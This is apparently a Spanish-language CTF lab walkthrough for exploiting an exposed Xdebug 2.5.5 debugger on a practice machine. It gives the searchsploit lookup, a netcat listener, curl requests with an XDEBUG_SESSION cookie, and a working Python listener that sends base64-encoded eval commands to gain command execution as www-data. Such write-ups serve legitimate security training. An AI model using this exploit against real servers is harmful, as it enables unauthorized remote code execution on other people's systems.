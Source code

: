 ## Evaluacion de Vulnerabilidades {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de atacante en el puerto 9000
- usa el comando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- ejecuta el fichero con php
- la peticion esta enviada por el methodo GET con `'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)'`

### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recibimos datos del lado del servidor.

### Explotacion de la vulnerabilidad {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'eval -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit funciona y el comando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.
